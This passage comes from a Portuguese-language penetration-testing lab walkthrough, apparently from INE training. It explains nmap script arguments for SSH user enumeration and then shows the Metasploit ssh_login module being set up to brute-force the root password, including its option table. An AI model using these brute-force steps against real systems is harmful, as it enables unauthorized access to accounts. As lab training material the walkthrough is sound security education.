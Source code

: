 
Onde `-p` é para informar a porta que será utilizada no ataque, `--script` é para informar o script que será utilizado no ataque, `--script-args` é para informar os argumentos que serão utilizados no ataque e `userdb` é para informar o arquivo que contém os usuários que serão utilizados no ataque.


### **• Utilizando Metasloit**:

Aqui vamos aprender a utilizar o modulo `auxiliary/scanner/ssh/ssh_login` do Metasploit para descobrir a senha do usuário "root".

primeiramente vamos iniciar o Metasploit utilizando a opção `-q` para que o Metasploit não mostre a mensagem de boas vindas:

```bash
root@INE:~/Desktop# msfconsole -q
msf6 >
```

Agora vamos utilizar o comando `use` para selecionar o modulo `auxiliary/scanner/ssh/ssh_login`:

```bash
msf6 > use auxiliary/scanner/ssh/ssh_login
```

vamos utilizar o comando `options` para listar as opções do modulo:

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user,
                                                 user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Usi
                                                ng-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts
```
